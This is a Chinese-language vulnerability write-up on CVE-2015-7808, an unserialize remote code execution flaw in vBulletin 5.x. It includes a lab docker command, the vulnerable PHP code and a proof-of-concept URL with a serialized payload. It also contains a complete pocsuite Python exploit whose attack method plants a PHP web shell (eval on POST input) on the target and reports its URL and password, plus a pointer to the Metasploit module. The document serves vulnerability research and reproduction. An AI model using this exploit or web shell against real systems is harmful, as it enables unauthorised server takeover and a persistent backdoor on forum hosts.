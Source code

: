 # CVE-2015-7808

CVE-2015-7808是vBulletin 5.0.x & 5.1.x的一个反序列化导致的代码执行漏洞。

## 环境重现

```
docker run -d -i --name CVE-2015-7808 -p 80:80 xk0n/cve-2015-7808
```

## 漏洞成因

vBulletin会进行一次rewrite，根据其htaccess文件，可以知道默认将路径作为routestring参数内容传给index.php了，由index.php做路由。

```
# Main Redirect
RewriteCond %{REQUEST_URI} !\.(gif|jpg|jpeg|png|css)$
RewriteCond %{REQUEST_FILENAME} !-f
RewriteCond %{REQUEST_FILENAME} !-d
RewriteRule ^(.*)$ index.php?routestring=$1 [L,QSA]
```

根据最先pastebin上的[文章](http://pastie.org/pastes/10527766/text?key=wq1hgkcj4afb9ipqzllsq)的poc

```
http://localhost/vbforum/ajax/api/hook/decodeArguments?arguments=O%3A12%3A%22vB_dB_Result%22%3A2%3A%7Bs%3A5%3A%22%00%2a%00db%22%3BO%3A11%3A%22vB_Database%22%3A1%3A%7Bs%3A9%3A%22functions%22%3Ba%3A1%3A%7Bs%3A11%3A%22free_result%22%3Bs%3A7%3A%22phpinfo%22%3B%7D%7Ds%3A12%3A%22%00%2a%00recordset%22%3Bi%3A1%3B%7D
```

`/ajax/api/hook/decodeArguments`会通过路由调用 `core/vb/api/hook.php`中的`decodeArguments`函数，这也是漏洞出现的地方，在183行中对`$arguments`进行了反序列化操作。

```php
181     public function decodeArguments($arguments)
182     {
183         if ($args = @unserialize($arguments))
184         {
185             $result = '';
186 
187             foreach ($args AS $varname => $value)
188             {
189                 $result .= $varname;
190 
191                 if(is_array($value))
192                 {
193                     $this->decodeLevel($result, $value, '=');
194                 }
195 
196                 $result .= "\n";
197             }
```

## 影响版本

- 5.0.x
- 5.1.x 5.1.2 to 5.1.9

## Exploit

这个漏洞的利用公开的方法有两类，一是利用了PHP迭代器在迭代时首先调用其rewind函数的特性，构造一个rewind函数存在问题的类；一是利用对象的魔术方法，如` __destruct`，最终造成eval方法，可以参考[checkpoint的博客](http://blog.checkpoint.com/2015/11/05/check-point-discovers-critical-vbulletin-0-day/)。

这里我根据RickGray的分析，用pocsuite写了一个poc：

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

import urlparse
from pocsuite.net import req
from pocsuite.poc import POCBase, Output
from pocsuite.utils import register


class vB5_RCE(POCBase):
    vulID = "None"
    version = "1"
    author = ["xkon"]
    createDate = "2016-01-24"
    updateDate = "2016-01-24"
    references = ["http://pastie.org/pastes/10527766/text?key=wq1hgkcj4afb9ipqzllsq",
                  "rickgray.me/2015/11/06/unserialize-attack-with-vbulletin-5-x-x-rce.html"]
    name = "_002_vBulletin_5_unserialize_RCE"
    appPowerLink = "https://www.vbulletin.com/"
    appName = "vBulletin"
    appVersion = "5.x.x"
    vulType = "RCE"
    desc = '''
        vBulletin 5.x.x 在反序列化时接受了不安全的输入，导致对象注入，
        可以导致远程代码执行
        '''
    samples = ["http://172.16.0.14:8080/"]

    def _attack(self):
        '''
        在根目录下生成一个shell，1.php
        <?php eval($_POST["a"]);?>
        '''
        result = {}
        payload = "O%3A12%3A%22vB_dB_Result%22%3A2%3A%7Bs%3A5%3A%22%00%2A%00db%22%3BO%3A18%3A%22vB_Database_MySQLi%22%3A1%3A%7Bs%3A9%3A%22functions%22%3Ba%3A1%3A%7Bs%3A11%3A%22free_result%22%3Bs%3A6%3A%22assert%22%3B%7D%7Ds%3A12%3A%22%00%2A%00recordset%22%3Bs%3A55%3A%22file_put_contents%28%271.php%27%2C%27%3C%3Fphp+eval%28%24_POST%5B%22a%22%5D%29%3B%3F%3E%27%29%22%3B%7D"
        vulurl = urlparse.urljoin(self.url, "/ajax/api/hook/decodeArguments?arguments=%s"%payload)
        resp = req.get(vulurl)
        if resp.status_code == 200:
            verify_payload = {"a":"echo md5(0x2333);"}
            shell_url = urlparse.urljoin(self.url, '/1.php')
            resp1 = req.post(shell_url,data=verify_payload)
            if resp1.status_code == 200 and "840c3eda3ea42ecd90aeb3434f3510b7" in resp1.content:
                result['shellURL'] = shell_url+"  password: a"
                return self.parse_attack(result)
        return self.parse_attack(result)

    def _verify(self):
        result = {}
        payload = "O%3A12%3A%22vB_dB_Result%22%3A2%3A%7Bs%3A5%3A%22%00%2A%00db%22%3BO%3A18%3A%22vB_Database_MySQLi%22%3A1%3A%7Bs%3A9%3A%22functions%22%3Ba%3A1%3A%7Bs%3A11%3A%22free_result%22%3Bs%3A6%3A%22assert%22%3B%7D%7Ds%3A12%3A%22%00%2A%00recordset%22%3Bs%3A13%3A%22print+md5%281%29%3B%22%3B%7D"
        vulurl = urlparse.urljoin(self.url, '/ajax/api/hook/decodeArguments?arguments=%s'%payload)
        print vulurl
        resp = req.get(vulurl)
        if resp.status_code == 200 and "c4ca4238a0b923820dcc509a6f75849b" in resp.content:
            result["VerifyInfo"]={}
            result["VerifyInfo"]['URL'] = vulurl
            result["VerifyInfo"]["Payload"] = payload

        return self.parse_attack(result)

    def parse_attack(self,result):
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail("Internet nothing returned")
        return output

register(vB5_RCE)
```

![](./test.png)

msf的利用：

```
exploit/multi/http/vbulletin_unserialize
```

https://www.rapid7.com/db/modules/exploit/multi/http/vbulletin_unserialize

## 参考

- http://pastie.org/pastes/10527766/text?key=wq1hgkcj4afb9ipqzllsq
- http://blog.knownsec.com/2015/11/unserialize-exploit-with-vbulletin-5-x-x-remote-code-execution/